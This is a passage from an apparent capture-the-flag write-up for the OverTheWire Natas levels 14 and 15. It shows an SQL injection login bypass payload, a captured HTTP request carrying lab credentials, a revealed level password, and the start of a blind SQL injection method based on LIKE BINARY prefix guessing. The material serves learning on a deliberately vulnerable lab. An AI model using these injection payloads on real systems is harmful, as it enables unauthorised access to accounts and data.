 ```sql
SELECT * from users where username="" or true;-- " and password="abcd"
```

Sending this using the in-app browser from Burp Suite, and change the POST endpoint to `/index.php`. The request will be something like 

```
POST /index.php?debug HTTP/1.1
Host: natas14.natas.labs.overthewire.org
Content-Length: 42
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxNDpxUGF6U0pCbXJtVTdVUUp2MTdNSGsxUEdDNER4Wk1FUA==
Upgrade-Insecure-Requests: 1
Origin: http://natas14.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas14.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=%22+or+true%3B--+++&password=abcd
```

We should get the password after forwarding this POST request, and also see the SQL command being executed.

natas15: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`

# Natas 15

Tough challenge, but simple concept. This is an example (sort) of Blind SQL injection. 

For a query, the PHP backend returns `"This user exists."` if the result of the query has more than 0 rows, otherwise it returns `"This user doesn't exist.`. There is no additional information to retrieve the password, and the only interaction we are allowed is on the SQL database, therefore we can assume that the password for the next level exists in the SQL database.

Putting `natas16` as the first username, we are informed that the user `natas16` indeed exists. We now need a way to make the query result "leak" something about the password. We have free rein on controlling the input, or the query itself, hence we can make more specific queries involving the password.

Since we do not know the password, we can start guessing letter by letter. We can employ the `%` symbol in MySQL. For instance, `abcd%` will match any strings start with `abcd`. Using this, the username field we submitted will look something like `natas16" and password like binary abcd%`. `binary` in MySQL means that the strings matched will be case-sensitive (this is needed as the password is a mix of lowercase and uppercase characters). The query in the PHP backend will look something like

```sql
SELECT * from users where username="natas16" and password like binary "abcd%";
```
